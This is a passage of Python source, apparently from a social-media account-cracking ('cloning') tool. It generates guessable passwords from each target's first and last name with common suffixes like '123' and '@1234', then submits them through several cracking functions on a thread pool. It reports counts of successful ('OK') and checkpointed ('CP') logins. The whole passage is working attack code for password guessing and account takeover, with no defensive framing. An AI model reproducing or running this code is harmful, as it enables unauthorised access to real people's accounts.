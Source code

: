 					pwv.append(frs+'#'+lst)
					pwv.append(lst+frs)
					pwv.append(frs+'12')
					pwv.append(frs+'123')
					pwv.append(frs+'321')
					pwv.append(frs+'1234')
					pwv.append(frs+'12345')
					pwv.append(frs+'@123')
					pwv.append(frs+'@1234')
					pwv.append(frs+lst+'123')
					pwv.append(frs+lst+'1234')
					pwv.append(frs+lst+'@123')
					pwv.append(frs+lst+'@1234')
					pwv.append(frs+lst+'321')
					pwv.append(lst+frs+'123')
					pwv.append(lst+frs+'111')
			else:
				if len(frs)<3:
					pwv.append(nmf)
				else:
					pwv.append(nmf)
					pwv.append(frs+lst)
					pwv.append(frs+'@'+lst)
					pwv.append(frs+'#'+lst)
					pwv.append(lst+frs)
					pwv.append(frs+'12')
					pwv.append(frs+'123')
					pwv.append(frs+'321')
					pwv.append(frs+'1234')
					pwv.append(frs+'12345')
					pwv.append(frs+'@123')
					pwv.append(frs+'@1234')
					pwv.append(frs+lst+'123')
					pwv.append(frs+lst+'1234')
					pwv.append(frs+lst+'@123')
					pwv.append(frs+lst+'@1234')
					pwv.append(frs+lst+'321')
					pwv.append(lst+frs+'123')
					pwv.append(lst+frs+'111')
			if 'ya' in pwpluss:
				for xpwd in pwnya:
					pwv.append(xpwd)
			else:pass
			if 'mobile' in method:
				pool.submit(crack,idf,pwv)
			elif 'free' in method:
				pool.submit(crackfree,idf,pwv)
			elif 'bapi' in method:
				pool.submit(bapi,idf,pwv)
			elif 'free' in method:
				pool.submit(crackfree,idf,pwv)
			else:
				pool.submit(crackmbasic,idf,pwv)
	print('\n\x1b[37m----------------------------------------------')
	print(' \x1b[38;5;196m[\x1b[37m•\x1b[38;5;196m]\x1b[37m CLONING COMPLETE AT '+time.strftime("%H:%M")+" "+ tag)
	print(' \x1b[38;5;196m[\x1b[37m•\x1b[38;5;196m]\x1b[37m OK : %s '%(ok))
	print(' \x1b[38;5;196m[\x1b[37m•\x1b[38;5;196m]\x1b[37m CP : %s '%(cp))
	linex()
	woi = input(' \x1b[38;5;196m>>\x1b[37m ENTER TO BACK')
	restart()
